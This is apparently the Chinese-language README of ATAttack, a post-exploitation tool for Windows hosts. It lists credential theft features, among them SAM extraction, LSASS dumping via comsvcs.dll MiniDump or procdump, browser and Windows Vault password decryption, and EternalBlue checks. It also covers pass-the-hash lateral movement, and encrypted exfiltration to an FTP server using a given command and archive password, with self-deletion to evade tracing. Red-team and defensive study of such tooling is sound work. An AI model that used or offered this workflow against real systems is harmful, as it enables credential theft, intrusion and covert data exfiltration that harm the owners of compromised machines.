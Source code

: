 #### 前言

​	 每获取一台机器权限，如果每次都手动操作重复一样的信息收集工作，无疑加大了工作量，既为了能更好的获取内网进一步突破点攻击面,这段闲暇时间造了个简易的轮子，其在真实环境中发现较多未知问题，欢迎大家踊跃提交 issue 和 PR ！

#### v1.0-开发进度：

#### 简介

**ATAttack**是一款后渗透半自动化侦察工具，它从进攻性和防御性安全角度执行许多面向安全性的主机调查“安全检查”。

项目地址：https://github.com/c1y2m3/ATAttack

####  快照预览

###### win10测试环境

![](https://www.yunzhijia.com/microblog/filesvr/5dbe4d62b54c8d19b5579f55)

win2008测试环境：

![](https://www.yunzhijia.com/microblog/filesvr/5dac6de090144e463b1d6194)

##### 使用方法

###### cmd.exe

存储于本地文件夹：

```
python exploit.py
```

回传远程FTP服务器：

```
python exploit.py -t ftp_host -u ftp_user -p ftp_pwd
```

###### 一、基础信息获取：

1、系统驱动器、主机版本信息获取,当前系统进程识别，判断是否存在杀软av进程

2、单机所有用户以及当前用户RDP远程连接导出 

3、当前系统已安装程序列表获取 ,

4、在当前用户文件夹下查找指定文件，如word、pdf、txt、csv等敏感数据


###### 二、主机网段收集:

1、基于提取系统远程连接记录，如：远程桌面，arp缓存，windows系统日志(4624、4625)等

（浏览器浏览记录、单机系统记录，系统登录日志记录筛选提取IP）

2、主流浏览器浏览记录提取，通过位操作符判断筛选私有地址去重划分网段。

###### 三、凭证获取:

1、注册表存储sam提取、在线解密  %SystemRoot%\system32\config\sam  

2、使用comsvcs.dll 中MiniDump 函数 dump指定lsass进程,

如失败则使用procdump提取lsa缓存进程，回传ftp，半自动化离线解密  

3、通过netsh 导出系统 wifi密码[暂时删除]、Windows Vaults 普通 / WEB 凭据提取

3、主流浏览器存储密码在线|离线模式解密,目前覆盖chrome、360chrome、ie,fiefox

fiefox浏览器解密基于key3.db、key4.db，logins.json文件，密钥加密，回传文件离线解密。

4、第三方主机软件 ，如 Navicat、Putty ,foxmail在线解密 [未完成]

###### 四、横向移动

1、探测网段存活，如存活则识别对应windows系统操作版本

2、如系统版本为windows系统，则检测是否存在永恒之蓝漏洞

3、基于解密出的ntlmhash，对存活主机进行pth哈希传递攻击，执行回显命令。


###### 五：数据回传

将获取的数据落地到本地用户Temp文件夹下存储，进行加密压缩回传，解压密钥为：

`Za!@#$@&**(aKg`，尽可能避免了网络设备溯源，程序结束后进行自删除

1、系统所安装的浏览器浏览历史记录，暂命名为update.log

2、系统所搜索的敏感数据文件存储，暂命名为file_list.txt

3、通过提取lsass进程所保存的内存文件，暂命名为lsass.dmp

4、内网主机所识别对应的windows版本，归属于工作组或域主机信息，暂命名为os_version.txt

## 打包ATAttack二进制文件

##### 测试打包环境:

- Python 2.7.15
- PyInstaller 3.4
- Windows 10

通过[UPX](https://upx.github.io/)压缩，使得ATAttack程序落地更小

- 下载UPX(测试环境为upx-3.95-win64版本)

  `https://github.com/upx/upx/releases`

- pip安装[pyinstaller](https://www.pyinstaller.org/)

  `pip install pyinstaller`

- 进入`ATAttack`目录,并通过upx压缩

  `pyinstaller -F exploit.py --upx-dir=upx-3.95-win64`

- 成功打包二进制控制台单文件`\ATAttack\dist]\exploit.exe`

## 已知故障和错误列表

- subprocess模块无法兼容Cobalt strike